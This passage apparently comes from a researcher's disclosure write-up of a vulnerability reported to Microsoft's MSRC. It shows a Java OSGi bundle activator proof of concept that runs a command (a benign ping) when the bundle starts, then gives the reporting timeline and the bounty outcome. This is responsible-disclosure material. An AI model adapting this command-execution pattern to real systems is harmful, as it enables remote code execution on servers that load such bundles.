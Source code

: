 ```Java
public class ProviderActivator implements BundleActivator {
    String staticCommand = "C:\\Windows\\System32\\ping.exe www.example.org";

    @Override
    public void start(BundleContext bundleContext) throws Exception {
        CommandLine cmdLine = CommandLine.parse(staticCommand);
        DefaultExecutor executor = new DefaultExecutor();

        try {
            executor.execute(cmdLine);
        } catch(java.io.IOException ex) {
            ex.printStackTrace();
        }
    }

    @Override
    public void stop(BundleContext bundleContext) throws Exception {
    }
}
```

**Note:** As mentioned above, no code was loaded into the Microsoft system **at any time**. The proof-of-concept code prepared as part of this exercise was compiled and provided as part of the report to Microsoft, but was never loaded into the system.

### Reporting.

This vulnerability was reported to the MSRC on the 3rd of December 2015, and was both confirmed and assigned a case manager within 24-hours. After some time and back-and-forth with the MSRC, this vulnerability was confirmed to have been resolved on the 3rd of May 2016.

Unfortunately, on the 4th of May 2016 it was confirmed by the MSRC that this report was not eligible for a monetary reward under the Microsoft Online Services Bug Bounty program as the affected domain was not explicitly listed as in-scope.

Such is life! :)

### Thanks.

I'd like to extend thanks to all of the MSRC staff who were involved in this case. Although this case took quite some time to be resolved, all of the MSRC staff encountered throughout were a pleasure to work with.
